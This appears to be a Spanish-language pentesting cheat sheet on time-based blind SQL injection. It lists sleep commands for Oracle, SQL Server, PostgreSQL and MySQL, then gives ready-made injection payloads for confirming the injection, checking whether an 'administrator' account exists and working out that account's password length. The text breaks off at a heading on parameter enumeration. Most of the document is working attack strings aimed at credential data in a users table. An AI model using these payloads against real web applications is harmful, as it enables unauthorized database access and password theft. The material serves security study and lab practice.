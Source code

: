 ## Time Delays
Cuando las técnicas anteriroes fallaron y no generaron algún tipo de comporatmiento, se puede recurrir a los retrasos de tiempo, pero se deben tener en cuenta las siguientes consideraciones
- Se recomienda concatenar, ya que jecutar multiples consultas con ";" puede estar deshabilitado
- Se recomienda comentar los siguientes parametros "payload--"
- Tener en cuenta si esta truncado
- Los milisegundos se encuentra en la esquina inferior derecha de burp en el response
### Tabla general de comandos
| Base de Datos | Comando para Espera de 10 Segundos                       |
|---------------|----------------------------------------------------------|
| Oracle        | `dbms_pipe.receive_message(('a'),10)`                    |
| Microsoft     | `WAITFOR DELAY '0:0:10'`                                 |
| PostgreSQL    | `SELECT pg_sleep(10)`                                    |
| MySQL         | `SELECT SLEEP(10)`                                       |
### Ejemplo de concatenación de retrasos de tiempo
```
Consulta base:
SELECT * FROM tracking WHERE id = 'fGR4W3zRJt6aOnhx'

Ejemplo BASE PostgreSQL
'|| (SELECT pg_sleep(10))--
SELECT * FROM tracking WHERE id = 'fGR4W3zRJt6aOnhx'|| (SELECT pg_sleep(10))--'

Ejemplo Oracle
dbms_pipe.receive_message(('a'),10)
SELECT * FROM tracking WHERE id = 'fGR4W3zRJt6aOnhx'|| (select dbms_pipe.receive_message(('a'),10) from dual;)--'

'; IF (1=2) WAITFOR DELAY '0:0:10'--
```
### Concatenación de retrasos de tiempo aplicados - Condicional Verdadero y Falso
```
'||(SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE '' END)||'
'||(SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE '' END)||'
```

### Concatenación de retrasos de tiempo aplicados - Verificar Usuario
```
'||(SELECT CASE WHEN username = 'administrator' THEN pg_sleep(10) ELSE '' END FROM users LIMIT 1)||' Si funciona 
'||(SELECT CASE WHEN username = 'administratggdfor' THEN pg_sleep(10) ELSE '' END FROM users LIMIT 1)||' Si funciona no da respuesta de 10 segundos

Consulta Alternativa no concatenada
X';SELECT CASE WHEN (USERNAME='ADMINISTRATOR') THEN PG_SLEEP(10) ELSE PG_SLEEP(0) END FROM USERS--
```
### Concatenación de retrasos de tiempo aplicados - Tamaño o longitud de un parametro
```
'||(SELECT CASE WHEN LENGTH(password)>$1$ THEN pg_sleep(10) ELSE '' END FROM users WHERE username='administrator')||'
';SELECT CASE WHEN (username='administrator' AND LENGTH(password)>$1$) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```
### Concatenación de retrasos de tiempo aplicados - Enumeración deun parametro